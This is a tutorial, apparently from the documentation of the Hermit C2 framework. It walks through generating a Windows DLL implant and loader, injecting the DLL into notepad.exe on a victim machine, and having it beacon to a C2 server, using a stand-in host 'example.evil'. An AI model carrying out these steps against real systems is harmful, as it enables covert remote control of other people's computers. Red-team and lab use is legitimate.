


# Simple DLL Injection

In this tutorial, we generate **DLL Implant** and **Loader** which loads the DLL into memory on Windows victim machine. Then make the C2 agent to communicate with our C2 server. 

Assume that you've completed [the Simple Implant Beacon tutorial](./simple-implant-beacon.md).  

> IMPORTANT: It's heavily recommended to use **a virtual machine** for Windows victim machine because If we modify the registry etc., the system might not work properly.

## 1. Start C2 Server

In the Hermit project root, start the C2 server:

```sh
./hermit
```

## 2. Start HTTPS Listener

Once the C2 server started, we also need to start HTTPS listener:

```sh title="Hermit C2 Server Console"
Hermit > listener new
```

After starting, the listener folder is generated at `$HOME/.hermit/server/listeners/https-<name>`.

## 3. Generate DLL Implant

At first, generate an implant DLL with `payload gen` command.



In the settings wizard, choose the following options at least:

- What to generate? -> `implant/beacon`
- OS/Arch/Format    -> `windows/amd64/dll`

### Custom Domain Setting (Optional)

If we choose the domain for the listener URL such as `https://example.evil:12345` instead of the ip address such as `https://172.12.34.56:12345`, we need to add the domain to the `C:\Windows\System32\drivers\etc\hosts` on the Windows victim machine for connecting back to our C2 server.

### Check Generated Payload

After that, we can see the generated payload with the `listener payloads <LISTENER-ID>` command:


This command lists all payloads hosted on the listener.  
We can freely delete arbitrary payload by selecting a payload on this menu (of course, we shouldn't delete it now).  

This payload is stored under `$HOME/.hermit/server/listeners/https-<name>/payloads/`. The DLL loader that we will create later will find this DLL file in this directory and load it automatically, so don't move this payload.

## 4. Generate DLL Loader

Next, generate a DLL loader that loads the DLL implant and inject it on specific process.  
Run `payload gen` command again:



In the option wizard, choose the following options at least:

- What to generate?         -> `loader/dll`
- OS/Arch/Format            -> `windows/amd64/exe`
- Listener URL              -> (Same URL as when generating the DLL)
- Technique                 -> `dll-injection`
- Target Process to Inject  -> `notepad.exe`

This stager is also generated under `$HOME/.hermit/server/listeners/https-<name>/payloads/`. 

### Transfer the Loader

**Now we need to transfer the generetad loader to Windows victim machine.**

## 5. Execute Loader

In Windows victime machine, at first, start `notepad.exe` as target process to inject our DLL into:

```ps title="Windows Victim Machine"
PS C:\Users\victim\Desktop> notepad
```

That's because we've specified `notepad.exe` (by default) as target process in the previous **Generate DLL Loader** section.  
By doing so, our loader can inject the DLL into the `notepad` process.

Finally we can execute the loader as below:

```ps title="Windows Victim Machine"
# Replace the filename with our own.
PS C:\Users\victim\Desktop> .\loader.exe
```

## 6. Switch to Agent Mode

After a few seconds (10~30 seconds by default), we can see that the agent connected to our C2 server with `agents` command:


To enter the agent mode, run `agent use` command on C2 server console:


## 7. Send Tasks

In agent mode, we can send tasks and see results. Try `ps ls` task:  

```sh title="Hermit C2 Server Console [Agent Mode]"
Hermit [agent-abcd] > ps ls
```

This task prints all running processes on victim machine. 

After a few seconds, run the `task results` or `loot show` command to see the result:

```sh title="Hermit C2 Server Console [Agent Mode]"
Hermit [agent-abcd] > task results
Hermit [agent-abcd] > loot show
```

If we cannot see the result yet, please repeat executing `loot show` command until the result will be shown.  

Looking at the task result, we can see that our DLL implant is running on the `Notepad.exe` process as below:


That's because the loader injected the DLL into the `notepad.exe` process.

## 8. Stop Implant & Quit Agent Mode

After playing the agent, stop the implant with the `kill` command or close the `Notepad`.
Then run `exit` command to quit the agent mode.

